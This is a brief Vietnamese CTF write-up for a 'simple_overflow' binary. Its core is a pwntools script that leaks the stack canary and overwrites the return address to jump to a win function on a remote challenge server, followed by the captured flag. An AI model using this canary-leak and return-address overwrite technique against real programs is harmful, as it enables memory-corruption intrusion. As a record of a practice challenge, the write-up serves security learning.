 bug nằm ở đây, cho phép ta leak canary và ret2win

![image](https://github.com/gookoosss/CTF/assets/128712571/3d543887-5604-4ca9-bfea-f034f75f7d60)

có 1 vấn để ở bài này trên server và local của mình lệch 4 byte, nên khá phiền trong việc leak canary

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./simple_overflow")
context.binary = exe

p = process([exe.path])
# gdb.attach(p, gdbscript = '''
# b*0x401442
# b*0x0000000000401467
# c
# ''')

# input()

p = remote('103.162.14.116', 12004)

p.sendline(b'b')

p.sendline(b'2')

p.send(b'a'* (0x39 + 4))

p.recvuntil('Data: ')
p.recv(61 - 3)
canary = u64(b'\0' + p.recv(7))
print(hex(canary))
# p.sendafter(b'Data: ', b'a'*56  + p64(canary) * 2 + p64(exe.sym.win)) 
p.send(b'a'*56  + p64(canary)*2 + p64(exe.sym.win + 5)) 
# p.sendafter(b'Data: ', b'a'*56 ) 

# KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}

p.interactive()
```

## Flag 
KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}

